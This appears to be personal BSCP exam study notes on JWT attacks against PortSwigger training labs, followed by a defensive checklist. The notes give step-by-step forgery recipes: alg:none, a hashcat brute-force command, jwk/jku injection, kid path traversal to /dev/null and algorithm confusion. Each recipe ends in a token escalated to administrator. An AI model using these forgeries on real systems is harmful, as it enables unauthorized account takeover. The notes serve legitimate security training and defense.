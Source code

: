 # JWT :   JSON web tokens

#### Quick JWT primer (very short)
- A JSON Web Token (JWT) is three base64url-encoded parts joined by dots:
```css
HEADER.PAYLOAD.SIGNATURE
```
- Header: algorithm (alg) and optional parameters (kid, jwk, jku, etc.).
- Payload: claims (sub, iss, exp, etc.).
- Signature: depends on alg:
	- HMAC (symmetric): e.g. HS256 — signature = HMAC(secret, header.payload)
	- RSA/ECDSA (asymmetric): e.g. RS256 — signature = Sign(private_key, header.payload) and verification uses the public key

 Symmetric Key  : HS256
 ASymmetric key : RSA

### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### Lab: JWT authentication bypass via flawed signature  (alg: none or kid confusion)

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```

### Lab: JWT authentication bypass via weak signing key

Payload
```
step 1 : Brute-force the secret key

	hashcat -a 0 -m 16500 complete_jwt_tokens ./jwt.secrets.list  : secret1
	Encode in base64 secret1 : c2VjcmV0MQ==

step 2: Generate a forged signing key

	 - JWT Editor Keys tab and click New Symmetric Key : Generate
	 - Replace the generated value for the k property with the Base64-encoded secret.

step 3 - Modify and sign the JWT
		
	 - {"iss":"portswigger","exp":1760963935,"sub":"wiener"}
	 - {"iss":"portswigger","exp":1760963935,"sub":"administrator"}

	 - Sign, then select the key that you generated .



```

## JWT header parameter injections jwk, jku, kid

- According to the JWS specification, only the alg header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.

		-	jwk (JSON Web Key) - Provides an embedded JSON object representing the key.
		-	jku (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.
		-	kid (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.

### Lab: JWT authentication bypass via jwk header injection

Payload
```
- JWT Editor Keys tab.
- Generate a new RSA key .
- JSON Web Token tab and modify the token's payload however you like.
- Click Attack, then select Embedded JWK.
- you may also need to update the JWT's kid header parameter to match the kid of the embedded key

```

### Lab: JWT authentication bypass via jku header injection

Payload
```
step 1: Generate a RSA signing key
	- JWT Editor Keys tab.
	- Generate a new RSA key 
	- Paste the RSA key on exploit server in below section :
		{
    	"keys": [
    		// Generate a new RSA key 
    		]
		}

- step 2 - Modify and sign the JWT
	- Match the both kid values (new values)
	- Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
	- sub  : administrartor 
	- Sign with RSA key
```

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/jwt-jku.jpg)


<hr>


### Lab: JWT authentication bypass via kid header path traversal

- Core idea: Some servers load the signing key from a file path specified in the JWT header kid. By setting kid to a path-traversal that points to /dev/null (a file with predictable contents), and signing the token with the same predictable secret (an empty/null byte), you can create a token the server accepts as valid and escalate to an administrator account.

Payload
```
Open Burp → load JWT Editor extension.
Log in to your account and send the post-login GET /my-account request to Repeater. Change path to /admin to confirm admin-only access.
In JWT Editor → Keys → create New Symmetric Key and generate a JWK.
Set the JWK k property to a Base64-encoded null byte (AA==) to represent an empty secret.
In the JWT editor for the /admin request:
Change the header kid to a path-traversal pointing to /dev/null, e.g. ../../../../../../../dev/null.
Change the payload sub claim to administrator.
Click Sign, choose the symmetric key created, ensure Don't modify header is checked, and sign the token (uses the null byte secret).
Send the request — you should now access the admin panel.
In the admin response locate the delete URL (e.g. /admin/delete?username=carlos) and send that request to complete the lab.
```

### Lab: JWT authentication bypass via algorithm confusion


Payload
```
step 1 — Obtain the server public key
	- Open /jwks.json in the browser and copy the single JWK object from the keys array (copy only the object).

step 2 — Create a malicious symmetric key in Burp

	- In Burp → JWT Editor → Keys: New RSA Key → choose JWK and paste the copied JWK; save.
	- Right-click the new key → Copy Public Key as PEM.
	- Base64-encode that PEM (use Decoder tab) and copy the Base64 string.
	- In JWT Editor → Keys: New Symmetric Key → Generate, then replace the k value with the Base64-encoded PEM; save.

Step 3 — Modify and sign the token

	- Open the GET /admin request in Repeater, switch to the JWT Editor tab.
	- Change JWT header alg → HS256.
	- Change payload claim sub → administrator.
	- Click Sign, pick the symmetric key you created, ensure Don't modify header is selected, and sign.
	- Send the request — you should now access the admin panel.

```


### Lab: JWT authentication bypass via algorithm confusion with no exposed key

Payload
```
Step1:  Collect two valid JWTs
	- Log in, capture the session JWT (/my-account → store cookie).
	- Log out, log in again, capture a second JWT.

Step2: Brute-force candidate public keys
	- Run docker run --rm -it portswigger/sig2n <token1> <token2>.
	- The tool outputs candidate n values, Base64 X.509/PKCS1 public keys and tampered JWTs.

Step3: Find the server’s actual public key
	- For each tampered JWT (X.509 entry) replace your session cookie in Burp and request /my-account.
	- A 200 means you found the correct X.509 key; a 302 redirect to /login means it’s wrong.

Step4: Create a symmetric key in Burp
	- In JWT Editor → Keys → New Symmetric Key → Generate JWK.
	- Replace the k value with the Base64 X.509 key you identified (use the key itself, not the tampered JWT). Save.

Step5: Forge and sign an admin token
	- In Repeater open the JWT (JWT Editor tab). Set header alg: HS256.
	- Change payload claim sub to administrator.
	- Sign with the symmetric key you created (ensure “Don't modify header” is selected). This uses the server’s public key as the HMAC secret.

```



### Quick defensive checklist (implement these)

- Always verify signatures and require verification before trusting claims.
- Whitelist algorithms — do not accept the algorithm from an untrusted client header.
- Separate keys by type — keep asymmetric public keys separate from symmetric secrets; never reuse them interchangeably.
- Validate kid/jku/jwk sources — only accept server-controlled keys or keys fetched from allowlisted, trusted JWKS endpoints.
- Use strong secrets for HMAC and enforce minimum entropy.
- Use proven libraries and high-level verify APIs; prefer libraries that let you set algorithms=['RS256'].
- Rotate keys and have a revocation/rotation strategy.
- Audit access to the JWKS endpoint and token generation endpoints.